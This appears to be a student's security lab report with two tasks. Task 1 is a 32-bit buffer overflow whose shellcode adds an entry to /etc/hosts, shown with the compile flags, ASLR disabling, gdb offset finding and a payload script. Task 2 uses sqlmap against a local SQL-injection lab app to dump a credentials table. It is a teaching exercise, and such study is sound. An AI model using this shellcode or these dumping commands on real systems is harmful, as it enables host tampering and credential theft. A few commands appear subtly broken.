








# Lab #1,22110020, Ho Thanh Dat, INSE331280E_01FIE
# Task1: Software buffer overflow attack
**Question 1**:
*Compile asm program and C program to executable code:*
- We will use gcc and nasm to compile the C program and asm program to executable code. 
```
gcc -m32 task1.c -o task1.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2

nasm -f elf32 shellcode.asm
ld -m elf_i386 -o shellcode shellcode.o

```
- f elf32: Ensures the assembly is in 32-bit ELF format.
- ld -m elf_i386: Links the assembled code in 32-bit format.


The image given shows that the first step is complete.


*Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux.*
- To exploit the vulnerable program, we need the shellcode in hexadecimal. Use objdump to extract the shellcode bytes:
```
objdump -d shellcode | grep '[0-9a-f]:' | grep -v 'file' | cut -f2-6 | tr -s ' ' | cut -d' ' -f2- | tr -d '\n' | sed 's/ //g' | xxd -r -p

```

Run the following bash script to get hex string of shellcode.
```
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d

- Temporary Disable Address Space Layout Randomization (ASLR):

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

```

- We need to craft an input payload that will:
Fill the buffer (buffer[16]) with some padding.
Overwrite the return address with the address pointing to our shellcode.
```
(gdb) run $(python3 -c 'print("A" * 20)')
```



Note the address of the buffer.
I have managed to overflow the buffer and corrupt the EBP (frame pointer) with 0x41414141 ('AAAA' in hex), which indicates that the stack was overflowed up to that point.

- We need to find the exact address to inject shellcode exactly.

```
(gdb) x/32x $esp
```
This will show you the exact buffer location and help you adjust where to inject your shellcode.




The buffer will be located just above the saved base pointer (EBP) in the stack.
Offset to Buffer:
- The buffer is 16 bytes in size.
- Since the C program has already caused a buffer overflow (as evident from the overwritten EBP), the buffer is likely at 0xffffd770 (ESP) to 0xffffd770 - 16 or 0xffffd760

- Craft the payload with a Python program.

```
echo "import sys, struct; payload = b'\x90' * 100 + b'\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d' + struct.pack('<I', 0xffffd760); sys.stdout.buffer.write(payload)" > create_payload.py
```

- Execute the program.
```
python3 create_payload.py | ./your_vulnerable_program $(python3 -c 'print "A"*20')
```


# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Use sqlmap to get information about all available databases
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" --dbs

```

The image provide us 2 available databases:  information_schema and sqllab_users

- Use sqlmap to get tables, users information
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D information_schema --tables
```

In the image given, there are 79 tables in information_schema


In the image given, there are 1 table in sqllab_users, which is the table need for question 2.
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=admin&Password=seedadmin" -D sqllab_users -T credential --dump
```


